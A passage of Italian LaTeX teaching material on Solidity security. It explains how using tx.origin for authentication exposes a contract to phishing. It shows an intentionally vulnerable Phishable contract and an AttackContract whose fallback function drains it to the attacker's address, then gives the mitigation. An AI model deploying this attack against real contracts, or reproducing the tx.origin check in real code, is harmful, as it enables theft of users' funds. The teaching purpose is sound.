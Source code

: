 Solidity ha una variabile globale, chiamata \texttt{tx.origin}, che attraversa l'intero stack di chiamate e restituisce l'indirizzo dell'account che ha originariamente inviato la chiamata o la transazione. L'utilizzo di questa variabile per l'autenticazione negli smart contract lascia il contratto vulnerabile a un attacco phishing. 
\begin{lstlisting}[language=Solidity]
contract Phishable {
    address public owner;
    
    constructor (address _owner) {
        owner = _owner; 
    }
    
    function () public payable {} // collect ether
    function withdrawAll(address _recipient) public {
        require(tx.origin == owner);
        _recipient.transfer(this.balance); 
    }
}

import "Phishable.sol";
contract AttackContract { 
    
    Phishable phishableContract; 
    address attacker; // The attackers address to receive funds.
    constructor (Phishable _phishableContract, address _attackerAddress) { 
        phishableContract = _phishableContract; 
        attacker = _attackerAddress;
    }
    
    function () { 
        phishableContract.withdrawAll(attacker); 
    }
}
\end{lstlisting}
Il contratto \texttt{Phishable} ha una funzione che controlla se l'inizializzatore della transazione è l'owner, e nel caso gli invia ether. Un attaccante può convincere il proprietario del contratto \texttt{Phishable} di inviargli dell'ether su un indirizoz, senza riconoscere che corrisponde ad \texttt{AttackContract}. L'effetto è quello di chiamare la funzione di fallback, che invoca quella del contratto vittima. La variabile \texttt{tx.origin} non deve essere mai utilizzata per l'autorizzazione negli smart contract, ma per altri scopi. Ad esempio, se si volesse negare ai contratti esterni di chiamare il contratto corrente, si potrebbe implementare una \texttt{require(tx.origin == msg.sender)}
\subsection{Vulnerabilità in Solidity - approfondimento}
In questa sezione sono presentate altre vulnerabilità di Solidity.

